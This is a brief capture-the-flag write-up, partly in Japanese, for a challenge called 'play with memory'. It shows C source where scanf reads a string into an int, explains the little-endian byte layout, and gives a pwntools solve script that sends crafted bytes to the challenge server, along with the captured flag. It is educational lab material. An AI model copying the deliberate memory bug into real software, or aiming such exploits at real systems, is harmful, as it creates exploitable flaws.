 ## play with memory
1, 2, 3, 4, 5!
```
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>

void print_flag() {
  char flag[256];
  int fd = open("./flag.txt", O_RDONLY);
  if (fd < 0) { puts("./flag.txt not found"); return; }
  write(1, flag, read(fd, flag, sizeof(flag)));
}

int main() {
  setbuf(stdout, NULL);
  
  int number = 0;
  printf("input your number!: ");
  scanf("%4s", &number);

  if (number == 12345) {
    print_flag();
  } else {
    printf("number: %d (0x%x)", number, number);
  }
  return 0;
}

```
nc 34.170.146.252 57944
number == 12345 を満たすことができればよさそう
12345 を入力したときに、number の値が 875770417 (0x34333231)と返ってくる
0x34333231 は ASCII 文字 '1' '2' '3' '4' をリトルエンディアンで格納した値なので、number領域に直接文字列が書き込まれている

solve.py
```
from pwn import *
r = remote("34.170.146.252", 57944)
r.sendline(b"90\x00")
r.interactive()
```
```
$ python3 memory.py 
[/.......] Opening connection to 34.170.146.252 on port 57944: Trying 3[+] Opening connection to 34.170.146.252 on port 57944: Done
[*] Switching to interactive mode
input your number!: Alpaca{l1ttl3_end1an_1s_qu1t3_h4rd_t0_us3d_t0}
[*] Got EOF while reading in interactive
```
### Flag
`Alpaca{l1ttl3_end1an_1s_qu1t3_h4rd_t0_us3d_t0}`
